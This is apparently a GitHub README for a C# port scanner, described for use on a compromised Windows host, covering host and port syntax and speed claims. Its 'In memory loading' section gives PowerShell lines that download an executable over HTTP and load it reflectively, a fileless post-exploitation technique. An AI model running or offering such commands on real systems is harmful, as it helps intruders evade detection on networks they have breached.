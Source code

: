 # Platinum Portscanner
Platinum portscanner is a C# tool for scanning hosts and ports, it has basic port service detection based on the commonly ran service for a port number(always verify) and basic host OS guesses. It was created to mainly be used once insuide a windows host but still wanting a portscanner with easy syntax, speed and output. 
![image](https://user-images.githubusercontent.com/15575425/159026346-0ba8e068-88ad-4d16-906a-e5a6e761adfd.png)


## usage
Program comes with one main command at the moment with two required options. tcpscan /hosts (values) /ports (values) and an optional /nocheck to skip the host detection phase. Users can load it into memory with the below instructions similar to a powershell script and then perform fast, reliable and useful potscanning in memory of a compromised host. 

### the help menu
![image](https://user-images.githubusercontent.com/15575425/159027184-f9e6b874-6be7-47de-a184-57ae644752cc.png)


/hosts can be done in 3 ways 
- list like 127.0.0.1 127.0.0.2 127.0.0.3 etc.
- range like 127.0.0.1-100 or 127.0.0.100-255
- a cidr notation like 127.0.0.1\24 (atm only supports \24-\32 need to work updating for bigger sized cidr ranges)

/ports can be done in 3 ways
- a list like 80 22 53 8080 etc.
- a range like 1-1000
- also a custom top-50 option from the most common ports ive come across during engagements and labs

/nocheck has the option of yes that disables the host up check and just scans the whole of what the user enters like a whole \24 for the selected ports.

### speed and output ?
Platnium port scanner has so far been just as fast if not faster then nmap for host discovery and port scanning, while as not robust if the goal is just to find open ports and running hosts this program has the speed.
![image](https://user-images.githubusercontent.com/15575425/159028376-6ecfbb7c-642f-4afd-b652-4997853f182e.png)
this is a whole \24 check and 1k port scan. 

output is also tries to be clean and helpful
![image](https://user-images.githubusercontent.com/15575425/159028542-b1c54f16-b724-4b1a-b3ce-32dd73157185.png)


### In memory loading ?
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Platinum_Portscanner.exe')"
2. "$assem =[System.Reflection.Assembly]::Load($data)"
3. "[Platinum_Portscanner.Program]::Main()"
** NOTE: the double quotes are just for formatting do not include when running command**

## features
- fast scanning time 
- verbose output
- in memory loading 

## disclaimer
I am not responsible for actions taken by users of Platinum portscanner. Platinum portscanner was released solely for educational and ethical purposes.
